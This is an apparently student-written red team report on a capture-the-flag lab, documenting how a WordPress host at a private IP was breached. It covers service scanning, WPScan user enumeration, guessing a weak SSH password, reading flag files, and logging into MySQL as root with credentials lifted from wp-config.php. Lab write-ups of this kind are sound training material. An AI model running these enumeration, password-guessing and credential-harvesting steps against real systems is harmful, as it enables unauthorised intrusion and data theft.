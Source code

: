 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:  

Command: `nmap -sV 192.168.1.110`

![](/Images/Nmap-Scan.PNG "Nmap Scan results")

This scan identifies the services below as potential points of entry:  

**Target 1**
  - Port22/TCP Open SSH  
  - Port80/TCP Open HTTP  
  - Port111/TCP Open rcpbind  
  - Port139/TCP Open netbios-ssn  
  - Port 445/TCP Open netbios-ssn

The following vulnerabilities were identified on each target:  

**Target 1**
  - CVE-2019-6120 Username Enumeration  
  - CWE-521 Weak password requirements  
  - CWE-916 Use of password hash with insufficient computational effort  

_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

### Exploitation  

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:  

**Target 1**
  - **flag1: b9bbcb33ellb80be759c4e844862482d**
    - **Exploit Used:**  
      - Ran a WP scan to enumerate the users of the known running wordpress site  
      - Command: `wpscan --url http://192.168.1.110 --enumerate u`  
      ![](/Images/Wordpress-enumerate-scan-results.PNG "Enumerate-Scan-Results")  
      - The next Step was to brute force Michael and guess his password  
      - It was a very weak password and easily guessed: michael  
    -  Once michaels password was guessed, we next needed to SSH in and find flag 1  
       - It was found in var/www/html in a service.html file found here  
    -  Commands used:  
       - `ssh michael@192.168.1.110`  
       - `password: michael`  
       - `cd /var/www/html`    
       - `nano service.html`  
     
  ![](/Images/Flag-1.PNG "Flag 1 Found")  
  
  - **flag2: fc3fd58dcdad9ab23faca6e9a3e581c**
    - **Exploit Used:**
      - Flag 2 uses most of the same exploits as flag 1  
      - Still connected to user Michael we can find flag 2 in /var/www in a file called "flag 2"  
   
    ![](/Images/Flag-2.PNG "Flag 2 Found")  
    
  - **flag3: afc01ab56b50591e7dccf93122770cd2**  
     - **Exploit Used:**  
       - While still connected to user Michael through SSH we need to access the MySQL database  
       - First step is finding the wp-config.php file which has the information we need to login to the database server    
     - Commands used:  
       - `mysql -u root -p'R@v3nSecurity' -h 127.0.0.1`    
       - `show databases;`  
       - `use wordpress;`  
       - `show tables;`  
       - `select * from wp_posts;`  \
      
   ![](/Images/found-flag-3.PNG "Flag 3 Found")    
   
       
